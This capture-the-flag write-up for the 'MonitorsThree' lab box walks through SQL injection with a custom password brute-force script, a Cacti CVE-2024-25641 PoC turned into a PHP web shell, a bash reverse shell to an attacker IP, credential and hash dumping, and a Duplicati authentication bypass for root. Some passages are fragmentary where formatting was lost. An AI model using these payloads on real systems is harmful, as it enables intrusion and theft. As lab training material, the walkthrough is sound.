

MonitorsThree
We first start with an Nmap scan to enumerate ports and services available.
$ sudo nmap -p22,80,8084 -vv -sC -sV -oN nmap-full 10.129.231.115
Nmap scan report for 10.129.231.115
Host is up, received echo-reply ttl 63 (0.027s latency).
Scanned at 2024-12-03 23:39:03 CET for 10s
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNwl884vMmev5jgPEogyyLoyjEHsq+F9DzOCgtCA4P8TH2TQcymOgliq7Yzf7x1tL+i2mJedm2BGMKOv1NXXfN0=
| 256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN5W5QMRdl0vUKFiq9AiP+TVxKIgpRQNyo25qNs248Pa
80/tcp open http syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
8084/tcp filtered websnp no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Tue Dec 3 23:39:13 2024 -- 1 IP address (1 host up) scanned in 11.27 seconds
- SSH on 22/TCP - Reveals Linux machine (Ubuntu + TTL 63)
- HTTP on 80/TCP - Redirects to
http://monitorsthree.htb/| Runningnginx
Add the redirect monitorsthree.htb to /etc/hosts.
Continue with visiting the website to see what's going on. Generic site, however login page at /login.php.
Trying some common credentials does not net us a successful login.
We decide to fuzz the website for directories as well as pages with the .php extension, since we see index.php. The Ffuf tool is used to perform this.
$ ffuf -u "http://monitorsthree.htb/FUZZ" -e php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -ic
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://monitorsthree.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
:: Extensions : php
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
images [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 21ms]
[Status: 200, Size: 13560, Words: 3598, Lines: 338, Duration: 26ms]
admin [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 36ms]
css [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 25ms]
js [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 31ms]
fonts [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 32ms]
<--SNIP-->
Not much of interest found other than the /admin directory.
We fuzz again, this time to try and discover subdomains/vhosts.
$ ffuf -u http://monitorsthree.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -ic -H "Host: FUZZ.monitorsthree.htb" -fs 13560
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://monitorsthree.htb
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
:: Header : Host: FUZZ.monitorsthree.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 13560
________________________________________________
cacti [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
<--SNIP-->
The subdomain cacti.monitorsthree.htb was successfully discovered.
Upon visiting this subdomain we can find a cacti instance running on version 1.2.26. This version is vulnerable, however we need to be authenticated in order to exploit the vulnerability. We keep this information in mind to potentially use later.
Doing some more manual enumeration and we discover a potential SQL Injection vulnerability on the website at /forgot_password.php.
By sending the ' character as input on the Reset Password functionality we can observe an SQL error being thrown, which can be indicative of a potential SQL Injection vulnerability.
We continue by capturing the full POST request being made by using Burpsuite.
$ cat forgot-password.req
POST /forgot_password.php HTTP/1.1
Host: monitorsthree.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://monitorsthree.htb
Connection: keep-alive
Referer: http://monitorsthree.htb/forgot_password.php
Cookie: PHPSESSID=ekfs7dr2h53tlh55k4609igomt
Upgrade-Insecure-Requests: 1
Priority: u=0, i
username=test
Next SQLMap is being used to potentially find an SQL Injection vulnerability. It will also enable us to easily enumerate the database as well as exfiltrate sensitive data.
$ sqlmap -r forgot-password.req --batch --threads 10 --dbms=mysql
___
__H__
___ ___[.]_____ ___ ___ {1.8.11#stable}
|_ -| . [(] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by
this program
[*] starting @ 00:33:53 /2024-12-04/
<--SNIP-->
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=test' AND (SELECT 6627 FROM (SELECT(SLEEP(5)))RodK) AND 'jRxj'='jRxj --- [00:36:35] [INFO] the back-end DBMS is MySQL
<--SNIP-->
[*] ending @ 00:37:00 /2024-12-04/
Because we manually tried for SQL Injection to discover issues in the first place, we know there could potentially be other types of SQL Injection as well.
We can try to increase --level and --risk flags as well as specifying the error-based or union SQL Injection type by using --technique for SQLMap to maybe find a "better" SQL Injection type.
Furthermore we note down the discovered DBMS as being MySQL (MariaDB).
$ sqlmap -r forgot-password.req --batch --threads 10 --dbms=mysql --technique=BEUSQ --level 5 --risk 3 -p username
<--SNIP-->
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2253 HTTP(s) requests:
---
Parameter: username (POST)
Type: stacked queries
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: username=test';SELECT SLEEP(5)#
---
<--SNIP-->
By increasing the null columns in the union statement, We finally inject the following payload in the username field and observe a different database response.
We now know that we are dealing with 9 columns in the current table. The problem here is that there is no output on the website for any of the columns, so we have extract valid data by differentiating between errors and valid responses from the database. Thus not allowing us to simply do a union injection based approach.
Our next step now is to try and enumerate the database further, gaining information about its schema. We decide to first get valid tables by changing one of the null columns into a SELECT statement with a table name that most likely doesn't exist. We can observe the error message, validating that the table doesn't exist. We also get the database name: monitorsthree_db.

Continue by trying common table names, such as any variations on the name user. We do this because we can most certainly assume that this database contains some user information, since we saw a login page as well as the password reset functionality. After some tries we can observe a different error message by querying the users table.
This error boils down to us trying to do our union query with an unequal amount of columns, because it always has to be the same number. The users table we are querying appears to have more than one column, thus resulting in the outer union query to fail.
We could try and delete some null columns in our payload to determine the number of columns in the users table, however we could also assume that the actual query to reset the password is being performed on the users table. Since this initial query is on a table with 9 columns, we try to verify the latter by simply deleting our null columns.
No error is observed, so we can confirm the users table also has 9 columns and we can most likely conclude that we are in the users table as well.
Next we try to determine the column names of the users table by following the same approach we did to find the users table. So we try some likely column names in a WHERE clause and find the username column name to be valid.
Once again using the same approach we try to enumerate possible users, first trying a bogus username:
Next we try a common username that is almost always present, such as administrator or admin and successfully find a user.

Further enumerating column names, we find the password column as being valid.
From here we can try to brute-force it. We will go with the approach to enumerate it character by character, by first getting the actual length of the password and then brute-force it one character at a time.
For this, we create the following Python script:
$ cat brute.py
import requests
import string
from termcolor import colored
from itertools import combinations_with_replacement
# Target URL
target = "http://monitorsthree.htb/forgot_password.php"
def get_password_length():
payload = "' union select * from users where username='admin' and length(password)={len_pw}-- -"
print("[.] Getting password length")
for i in range(0,64):
req = requests.post(target,data={'username':payload.format(len_pw=i)})
if ("Successfully" in req.text):
print(colored(f"[!] Determined password length as {i}", 'green'))
return i
def get_password(len):
chars = string.ascii_letters + string.digits
payload_brute = "' union select * from users where username='admin' and password='{brute}%'-- -"
payload_like = "' union select * from users where username='admin' and password like '{like}%'-- -"
print(f"[.] Brute-forcing password with following options:\n\t[->] Length: {len}\n\t[->] Characters: {chars}")
password_like = ""
for i in range(0,len+1):
for char in chars:
#adjusted = password_like + char
req = requests.post(target,data={'username':payload_like.format(like=password_like+char)})
if (f"Successfully" in req.text):
password_like += char
progress = i+1
print(colored(f"[->] Progress ({progress}/32): {password_like}", 'yellow'),end='\r',flush=True)
break
print(colored(f"\n[!] Successfully brute-forced password: {password_like}", 'green'))
if __name__ == '__main__':
password_length = get_password_length()
password = get_password(password_length)
print(colored(f"[!] kthxbye!", 'magenta'))
After executing it, we successfully retrieved the value of the password column for the user admin.
$ python3 brute.py
[.] Getting password length
[!] Determined password length as 32
[.] Brute-forcing password with following options:
[->] Length: 32
[->] Characters: abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
[->] Progress (32/32): 31a181c8372e3afc59dab863430610e8
[!] Successfully brute-forced password: 31a181c8372e3afc59dab863430610e8
[!] kthxbye!
With this value being of length 32, it can be assumed that this is an MD5 hash. So use CrackStation to try and quickly crack it.
We successfully get cleartext credentials as admin:greencacti2001.
Going back to our initial enumeration phase, this is most likely the credentials for the login page at the cacti.monitorsthree.htb subdomain, so we try them.
As we saw on the login screen, the version of cacti is 1.2.26. This version has an authenticated RCE vulnerability (CVE-2024-25641) and there's also a PoC available for it.
We proceed with copying the PoC script to generate our malicious payload.
<?php
$xmldata = "<xml>
<files>
<file>
<name>resource/test.php</name>
<data>%s</data>
<filesignature>%s</filesignature>
</file>
</files>
<publickey>%s</publickey>
<signature></signature>
</xml>";
$filedata = "<?php phpinfo(); ?>";
$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");
?>
Next we create the payload by running the PoC script and the malicious test.xml.gz file is now in our directory.
Next we navigate to Import Packages under Import/Export and upload the malicious file.
After this we click Import on the bottom right to successfully import it. Now we navigate to the location the file has been placed (shown under the Filename column) and we get the PHP version information, thus confirming the vulnerability.
After having confirmed that the exploit works, we craft a malicious PHP web shell.
Edit the PoC script to create the malicious payload containing our PHP web shell.
<?php
$xmldata = "<xml>
<files>
<file>
<name>resource/shelly.php</name>
<data>%s</data>
<filesignature>%s</filesignature>
</file>
</files>
<publickey>%s</publickey>
<signature></signature>
</xml>";
$filedata = '<?php system($_GET["cmd"]); ?>';
$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("shelly.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat shelly.xml | gzip -9 > shelly.xml.gz; rm shelly.xml");
?>
Repeat the steps to import it again and visit the page. We can confirm successful code execution using the id command.
Next we set up a listener to get a reverse shell.
To establish the reverse shell connection, we use a simple bash command and deliver it with curl.
$ curl -s 'http://cacti.monitorsthree.htb/cacti/resource/shelly.php' --get --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.35/7777 0>&1'"
Upon issuing the command, we get our reverse shell connection established on our listener.
connect to [10.10.16.35] from (UNKNOWN) [10.129.231.115] 51716
bash: cannot set terminal process group (1156): Inappropriate ioctl for device
bash: no job control in this shell
www-data@monitorsthree:~/html/cacti/resource$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@monitorsthree:~/html/cacti/resource$ hostname
monitorsthree
Interesting file at ~/html/app/admin/db.php
www-data@monitorsthree:~/html/app/admin$ cat db.php
<?php
$dsn = 'mysql:host=127.0.0.1;port=3306;dbname=monitorsthree_db';
$username = 'app_user';
$password = 'php_app_password';
$options = [
PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
];
try {
$pdo = new PDO($dsn, $username, $password, $options);
} catch (PDOException $e) {
echo 'Connection failed: ' . $e->getMessage();
}
users table, but does not get us further.
www-data@monitorsthree:~/html/app/admin$ mysql -u app_user -pphp_app_password monitorsthree_db
<--SNIP-->
MariaDB [monitorsthree_db]> select username,password from users;
select username,password from users;
+-----------+----------------------------------+
| username | password |
+-----------+----------------------------------+
| admin | 31a181c8372e3afc59dab863430610e8 |
| mwatson | c585d01f2eb3e6e1073e92023088a3dd |
| janderson | 1e68b6eb86b45f6d92f8f292428f77ac |
| dthompson | 633b683cc128fe244b00f176c8a950f5 |
+-----------+----------------------------------+
Going back and navigating to the /var/www/html/cacti directory we can look for more interesting files. Two .sql files can be found as well as a few config files.
$ find . -iname "*.sql" 2>/dev/null
./docs/audit_schema.sql
./cacti.sql
$ find . -iname "*conf*" 2>/dev/null
./include/fa/js/conflict-detection.min.js
./include/fa/js/conflict-detection.js
./include/fa/svgs/brands/confluence.svg
./include/config.php
./include/config.php.dist
./include/vendor/csrf/csrf-conf.php
./include/vendor/flag-icons/svgo.config.js
./tests/tools/cacti.conf
./include/config.php file is interesting as it contains database credentials.
$ cat ./include/config.php | grep -v '\#\|*\|//' | grep -e '^.'
<--SNIP-->
$database_type = 'mysql';
$database_default = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port = '3306';
$database_retries = 5;
$database_ssl = false;
<--SNIP-->
mysql.
Proceed to dump the user_auth table to extract hashes for existing users.
MariaDB [cacti]> select username,password from user_auth;
select username,password from user_auth;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| admin | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
3 rows in set (0.000 sec)
Bcrypt format. We crack them using Hashcat.
$ ./hashcat hashes/monitorsthree/cacti-db.hashes rockyou.txt -m 3200 --username
<--SNIP-->
$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
marcus:12345678910guest:guest
We login as marcus using the reverse shell connection and issuing the su command, since SSH is blocked (publickey restriction).
marcus private SSH key and login via SSH.
The user flag can now be obtained.
We run netstat command and see local port 8200/TCP open.
$ netstat -lntp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:39891 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:8084 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8200 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
$ find / -iname "*duplicati*" 2>/dev/null
/usr/share/Duplicati
/opt/backups/cacti/duplicati-bb19cdec32e5341b7a9b5d706407e60eb.dblock.zip
/opt/backups/cacti/duplicati-20240526T162923Z.dlist.zip
/opt/backups/cacti/duplicati-b292fdbdd5d6d4145b568ab01e0fd754b.dblock.zip
/opt/backups/cacti/duplicati-bc2d8d70b8eb74c4ea21235385840e608.dblock.zip
/opt/backups/cacti/duplicati-ie7ca520ceb6b4ae081f78324e10b7b85.dindex.zip
/opt/backups/cacti/duplicati-iae1400c8c6b742fa9b1552c67034005b.dindex.zip
/opt/backups/cacti/duplicati-20241203T223605Z.dlist.zip
/opt/backups/cacti/duplicati-i7329b8d56a284479bade001406b5dec4.dindex.zip
/opt/backups/cacti/duplicati-20240820T113028Z.dlist.zip
/opt/duplicati
/opt/duplicati/config/Duplicati-server.sqlite
/etc/cron.d/duplicati
.zip files as well as the .sqlite file is interesting so we transfer the database file over to attack machine using scp command and analyze it with sqlite3.
$ scp -i marcus-id_rsa marcus@monitorsthree.htb:/opt/duplicati/config/Duplicati-server.sqlite ./duplicate.sqlite
$ sqlite3 duplicate.sqlite
option table are interesting entries to be found, such as server-passphrase and server-passhphrase-salt.
sqlite> select * from option;
<--SNIP-->
-2||last-webserver-port|8200
-2||is-first-run|
-2||server-port-changed|True
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
-2||server-passphrase-trayicon|ea395a64-1f0f-4dcb-83ec-e09971cb4e99
-2||server-passphrase-trayicon-hash|K3pJRrMNcoR8CYT2o0LZkeVM/ds9Hp3yCmhLmYoVMCk=
login.js file with the following contents:
With knowing the server-passphrase from the database, we can bypass the authentication (see here). To exploit this we do the following:
- We enter any password and intercept the POST request using BurpSuite.

- Next we note the
session-nonceand URL decode it using CyberChef - Once again using CyberChef we paste the
server-passphraseand then do the recipe: from base64 -> to hex -
Following this we open the developer console on the login page and type the following. Where
noncedpwduses the URL decoded value of the BurpSuite intercept.
-
We paste the
noncedpwdinto thepasswordparameter (URL encoded) in BurpSuite and forward the request.
We will successfully have bypassed authentication and see the duplicati dashboard.
Under the About tab we see that the application is running with root privileges.
We can abuse this to escalate our privileges by using the backup functionality. These are the steps:
- Navigate to
Add backupand selectConfigure a new backup. - Next we give it any name and specify
No encryption. -
We choose to do the backup in
marcushome directory, but can be anywhere. It is important to navigate to the/sourcefirst. -
For the source data we chose
.sshdirectory ofmarcus. -
Next we turn off
Automatically run backupsand save. -
Then run the backup. 
-
Following this we navigate to
Restoreand aim to put the files insidemarcus.sshdirectory intoroot.sshdirectory. -
We check all boxes for the restore files and continue.
-
Next we pick the location to be
root.sshdirectory -
Once restored, the
ROOT FLAG.sshdirectory ofrootwill havemarcusSSH keys and we can login as root using previously obtained private key ofmarcusasroot.
| Flag | Value | Location |
|---|---|---|
| user | d4cc53d18837a65652b02641e15fb2c2 | /home/marcus/user.txt |
| root | 6ebfcd64fada5899babc1055b1dd2102 | /root/root.txt |